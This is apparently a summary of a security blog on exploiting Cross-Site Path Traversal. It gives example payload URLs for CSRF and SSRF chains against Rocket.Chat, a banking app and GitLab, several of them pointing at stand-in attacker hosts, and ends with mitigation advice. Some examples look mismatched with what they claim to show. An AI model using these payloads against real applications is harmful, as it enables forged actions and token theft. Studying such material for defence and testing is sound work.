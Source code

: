 
### **Cross-Site Path Traversal (CSPT) Exploitation Techniques**

Here’s a **summarized and organized version** of the key tips and techniques for exploiting **Cross-Site Path Traversal (CSPT)** vulnerabilities from the provided blog:

---

#### **1. Introduction to CSPT**
- **Definition**:  
  CSPT occurs when user-controlled input is used to manipulate file paths or resource URLs on the client side, leading to unauthorized access or resource manipulation.  
- **Impact**:  
  - Unauthorized access to sensitive files.  
  - Manipulation of client-side resources.  
  - Potential escalation to **Cross-Site Request Forgery (CSRF)** or **Server-Side Request Forgery (SSRF)**.  

---

#### **2. CSPT to CSRF (CSPT2CSRF)**
- **Concept**:  
  Exploit CSPT to reroute legitimate API requests to malicious endpoints, leading to CSRF attacks.  
- **Example**:  
  - **Source**: User-controlled input (e.g., URL parameters, DOM).  
  - **Sink**: API endpoint that shares the same host, headers, and body restrictions.  
  - **Exploitation**:  
    ```plaintext
    /marketplace/private/install?id=../../../api/v1/users.logoutOtherClients&url=https://google.com
    ```
  - **Impact**: Perform actions like logging out users or enabling 2FA without their consent.  

---

#### **3. Real-World CSPT Exploits**
1. **1-Click CSPT2CSRF in Rocket.Chat**:  
   - **Vulnerability**: Path manipulation in API endpoints.  
   - **Exploit**:  
     ```plaintext
     /marketplace/private/install?id=../../../api/v1/users.logoutOtherClients&url=https://google.com
     ```
   - **Impact**: Log out all user sessions or enable 2FA.  

2. **1-Click Cancel a Bank Card**:  
   - **Vulnerability**: Path traversal in invite links.  
   - **Exploit**:  
     ```plaintext
     /signup/invite?email=foo@bar.com&inviteCode=123456789/../../../cards/123e4567-e89b-42d3-a456-556642440000/cancel
     ```
   - **Impact**: Cancel a bank card without user consent.  

3. **CSPT Leading to 1-Click CSRF in GitLab**:  
   - **Vulnerability**: Manipulation of error IDs in Sentry integration.  
   - **Exploit**:  
     ```plaintext
     /api/v4/users/4?admin=true
     ```
   - **Impact**: Escalate user privileges or approve group memberships.  

---

#### **4. CSPT Combined with SSRF**
- **Exploit Scenario**:  
  - **Blind SSRF**: Requires an authorization header.  
  - **CSPT**: Manipulate paths to include SSRF payloads.  
  - **Example**:  
    ```plaintext
    /users?id=/../../example?url=https://attacker-site/?payload
    ```
  - **Impact**: Steal authentication tokens or perform unauthorized actions.  

---

#### **5. CSPT in CSS Injection**
- **Exploit**:  
  - **Vulnerability**: Unsanitized `color_scheme` parameter in CSS URLs.  
  - **Payload**:  
    ```plaintext
    /../../../api/2/idp/authorize/?client_id=CLIENT-ID&redirect_uri=/hci/callback&state=http://localhost/css/core.css
    ```
  - **Impact**: Load malicious CSS to exfiltrate user data.  

---

#### **6. CSPT Burp Extension**
- **Tool**: [CSPT Burp Extension](https://github.com/doyensec/CSPTBurpExtension).  
- **Features**:  
  - Automates CSPT detection and exploitation.  
  - Identifies sources and sinks for CSPT vulnerabilities.  
- **Limitations**:  
  - May miss DOM-based or stored sources without canary tokens.  
  - Ineffective against client-side routing.  

---

#### **7. Common Exploitation Techniques**
1. **URL Manipulation**:  
   - Use `?`, `#`, or `;` to truncate or add query parameters.  
   - Example:  
     ```plaintext
     /example?url=https://attacker.com?param=value
     ```

2. **HTTP Method Override**:  
   - Use headers like `X-HTTP-Method-Override` to change request methods.  
   - Example:  
     ```plaintext
     X-HTTP-Method-Override: PUT
     ```

3. **URL Encoding**:  
   - Encode or double-encode path parameters to bypass filters.  
   - Example:  
     ```plaintext
     /api/v1/users/%2F..%2F..%2Fadmin
     ```

4. **Lax Backend Validation**:  
   - Exploit backends that accept extra body or query parameters.  
   - Example:  
     ```json
     {"email":"foo@bar.com","admin":"true"}
     ```

---

#### **8. Prevention and Mitigation**
- **Input Validation**:  
  - Sanitize and validate all user-controlled inputs.  
- **Strict Path Handling**:  
  - Restrict path traversal characters (`..`, `/`).  
- **Secure Redirects**:  
  - Validate `redirect_uri` against a whitelist.  
- **Use Secure Frameworks**:  
  - Implement frameworks that prevent path manipulation.  

---

#### **9. Additional Resources**
- [Doyensec CSPT2CSRF Blog](https://www.doyensec.com/resources/Doyensec_CSPT2CSRF_OWASP_Appsec_Lisbon.pdf)  
- [USENIX Security Paper on CSPT](https://www.usenix.org/system/files/sec21-khodayari.pdf)  
- [GitHub CSPT Burp Extension](https://github.com/doyensec/CSPTBurpExtension)  

---


- https://youtu.be/yGRRGUtT9MU?si=OLNg6eaQNplLuWag
